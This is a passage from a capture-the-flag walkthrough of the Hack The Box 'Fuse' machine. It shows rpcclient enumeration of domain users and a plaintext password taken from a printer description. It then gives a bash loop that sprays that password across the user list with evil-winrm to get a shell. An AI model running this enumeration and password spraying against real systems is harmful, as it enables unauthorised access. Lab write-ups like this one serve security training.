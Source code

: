 Sadly nothing interesting was residing inside the shares. Next I try connecting with RPCclient.

```
rpcclient -U tlavel fuse.htb
mkdir failed on directory /var/run/samba/msg.lock: Permission denied
Enter WORKGROUP\tlavel's password: 
rpcclient $>
```

We do basic enum using commands like enumdomusers, enumprinters, enumdomains etc.
We get a new wordlists of users.

```
rpcclient $> enumdomusers 
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[svc-print] rid:[0x450]
user:[bnielson] rid:[0x451]
user:[sthompson] rid:[0x641]
user:[tlavel] rid:[0x642]
user:[pmerton] rid:[0x643]
user:[svc-scan] rid:[0x645]
user:[bhult] rid:[0x1bbd]
user:[dandrews] rid:[0x1bbe]
user:[mberbatov] rid:[0x1db1]
user:[astein] rid:[0x1db2]
user:[dmuir] rid:[0x1db3]
```

And a password too!

```
rpcclient $> enumprinters
	flags:[0x800000]
	name:[\\10.10.10.193\HP-MFT01]
	description:[\\10.10.10.193\HP-MFT01,HP Universal Printing PCL 6,Central (Near IT, scan2docs password: $fab@s3Rv1ce$1)]
	comment:[]
```

Next I Search for other places where I could use credentials. Doing further nmap scans on higher ports I see 5985 which is the WinRm service. To exploit that we use evil-winrm.

We have the password but we still don't have the username so lets use the username list we got from rpcclient and brute force again. I create another simple bash script for this.

```
#!/bin/bash
while read line; do echo $line;evil-winrm -i 10.10.10.193 -u $line -p '$fab@s3Rv1ce$1'; done < users
```

I let the script run and when I see a login shell I just press ctrl+c. We can login with the user svc-print. You can now find the user flag inside the Desktop of this user.
